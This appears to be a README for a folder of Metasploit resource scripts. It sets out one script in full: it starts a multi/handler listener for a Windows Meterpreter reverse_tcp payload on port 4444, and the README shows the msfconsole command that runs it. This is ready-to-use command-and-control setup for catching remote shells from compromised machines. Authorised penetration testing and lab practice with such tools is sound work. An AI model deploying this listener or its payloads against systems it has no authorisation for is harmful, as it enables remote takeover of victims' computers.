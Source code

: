 # Resource Scripts (.rc)

This directory contains Metasploit Resource Scripts (`.rc` files) designed to automate repetitive tasks within `msfconsole`.

## 1. Simple Listener (`multi_handler_listener.rc`)

This script is for quickly starting a generic listener with a default configuration. It's best for scenarios where you commonly use a Windows Meterpreter payload.

**Content:**

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit -j


**How to Use:**
Run directly from your terminal. `msfconsole` will start and immediately execute the script.
```bash
msfconsole -r resource_scripts/multi_handler_listener.rc
